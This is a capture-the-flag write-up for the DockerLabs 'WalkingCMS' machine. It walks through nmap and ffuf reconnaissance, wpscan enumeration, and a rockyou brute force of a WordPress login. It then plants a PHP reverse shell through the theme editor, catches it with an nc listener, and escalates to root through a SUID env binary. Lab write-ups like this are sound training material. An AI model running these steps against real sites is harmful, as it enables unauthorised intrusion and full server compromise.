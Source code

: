 ```yaml
---
{"dg-publish":true,"permalink":"/write-ups/docker-labs/walking-cms/","tags":["CTF","write-up"]}
---
```



![Pasted image 20241215111508.png|300](/img/user/attachments/Pasted%20image%2020241215111508.png)

---

> [!INFO] Info about WalkingCMS
>  Difficulty: Easy

> [!FAQ]- Hints
> No Hints.

---
# Active reconnaissance
## Port scan
Perform a quick general scan on all ports.
```shell
sudo nmap TARGET_IP -n -p- -sS -Pn -vvv --open --min-rate 5000 -oN nmap_scan
```

```c
PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack ttl 64
```

---
# Enumeration
Perform a deep scan with common scripts only on ports we are interested in.
```shell
sudo nmap TARGET_IP -sCV -p 80 -oN nmap_enum
```
## OS
Linux
## Port 80 - Apache
tcp open  http    **Apache** httpd **2.4.57** ((Debian))
![Pasted image 20241215111928.png](/img/user/attachments/Pasted%20image%2020241215111928.png)
### Fuzz
```shell
ffuf -c -t 100 -u http://<TARGET>/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -mc all -fc 404 -e .php,.html,.txt
```
### Wordpress
Version 6.4.3
![Pasted image 20241215124237.png](/img/user/attachments/Pasted%20image%2020241215124237.png)

---
# Vulnerability analysis
## Wordpress
6.4.3
```shell
wpscan -e vp,u --url http://172.17.0.2/wordpress --api-token="7890hm..877hjs" --plugins-detection aggressive
```
![Pasted image 20241215130627.png](/img/user/attachments/Pasted%20image%2020241215130627.png)

---
# Exploitation

## Brute force
Using the username, I tried a brute force attack
```shell
wpscan --url http://172.17.0.2/wordpress -U mario -P /usr/share/wordlists/rockyou.txt
```
![Pasted image 20241215130923.png|500](/img/user/attachments/Pasted%20image%2020241215130923.png)
## RCE Admin panel
1. Go to *appearance* then *theme code editor*
![Pasted image 20241215175704.png](/img/user/attachments/Pasted%20image%2020241215175704.png)
2. Select *create*
   ![Pasted image 20241215175809.png](/img/user/attachments/Pasted%20image%2020241215175809.png)
3. Write a name and *Create New File*
   ![Pasted image 20241215180904.png|500](/img/user/attachments/Pasted%20image%2020241215180904.png)
4. Write the *PHP* code of reverse shell. I use */usr/share/webshells/php/php-reverse-shell.php*
   ![Pasted image 20241215181052.png](/img/user/attachments/Pasted%20image%2020241215181052.png)
5. Upload file bottom
   Now the file is stored on */var/www/html/wordpress/wp-content/themes/twentytwentytwo/test1.php*
6. Set the listener
```shell
rlwrap nc -lnvp 4747
```
6. To access to the *test1.php* we need to go to 
   *172.17.0.2/wordpress/wp-content/themes/twentytwentytwo/test1.php*
   And we got the shell as *www-data*
   ![Pasted image 20241215181540.png](/img/user/attachments/Pasted%20image%2020241215181540.png)

---
# Privilege escalation
## SUID
Check SUID files
```shell
find / -type f -perm -4000 -ls 2>/dev/null
```
The uncommon *SUID* binary is *env*
![Pasted image 20241215183225.png](/img/user/attachments/Pasted%20image%2020241215183225.png)
Use *gtfobins* to check a way to leverage this.
![Pasted image 20241215183352.png|400](/img/user/attachments/Pasted%20image%2020241215183352.png)
```shell
env /bin/bash -p
```
![Pasted image 20241215183438.png](/img/user/attachments/Pasted%20image%2020241215183438.png)

---
